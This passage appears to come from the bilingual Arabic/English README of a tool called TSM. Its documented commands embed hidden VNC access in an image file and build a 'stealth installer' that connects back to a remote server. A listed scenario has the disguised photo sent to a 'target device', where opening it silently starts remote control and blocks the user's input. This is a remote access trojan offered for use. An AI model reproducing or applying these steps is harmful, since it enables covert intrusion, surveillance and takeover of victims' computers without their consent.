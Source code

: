 ### إنشاء صورة مخفية مع VNC | Create Stealth Image with VNC
```bash
# إنشاء صورة مع VNC مخفي
python TSM_StealthMode.py create photo.jpg localhost 5900

# إنشاء حزمة نشر كاملة
python TSM_StealthMode.py package photo.jpg your-server.com 5900

# إنشاء مثبت مخفي
python TSM_StealthMode.py installer photo.jpg your-server.com 5900
```

### تشغيل خدمة واحدة | Run Single Service
```bash
# TigerVNC فقط
python TSM_Complete_Integration.py tigervnc 5900

# noVNC Dashboard فقط
python TSM_Complete_Integration.py novnc localhost 8080

# Web VNC فقط
python TSM_Complete_Integration.py webvnc localhost 8081
```

## 🌐 الواجهات المتاحة | Available Interfaces

### 1. لوحة تحكم TSM | TSM Dashboard
- **الرابط**: `http://localhost:8080`
- **الميزات**: مراقبة شاملة، تحكم في VNC، إدارة الملفات
- **اللغة**: العربية والإنجليزية

### 2. noVNC الكلاسيكي | Classic noVNC
- **الرابط**: `http://localhost:8080/vnc.html`
- **الميزات**: واجهة noVNC الأصلية مع تكامل TSM
- **الاستخدام**: للاستخدام المتقدم

### 3. noVNC Lite | noVNC Lite
- **الرابط**: `http://localhost:8080/vnc_lite.html`
- **الميزات**: واجهة مبسطة وسريعة
- **الاستخدام**: للاستخدام السريع

### 4. Web VNC المخصص | Custom Web VNC
- **الرابط**: `http://localhost:8081`
- **الميزات**: واجهة مخصصة لـ TSM
- **الاستخدام**: للتحكم المتقدم

## 📋 سيناريوهات الاستخدام | Usage Scenarios

### السيناريو 1: التحكم عن بُعد المخفي | Hidden Remote Control
1. **إنشاء صورة مخفية** مع VNC
2. **إرسال الصورة** للجهاز المستهدف
3. **فتح الصورة** - يبدأ VNC تلقائياً
4. **التحكم الكامل** في الشاشة من المتصفح
5. **حجب إدخالات المستخدم** مؤقتاً
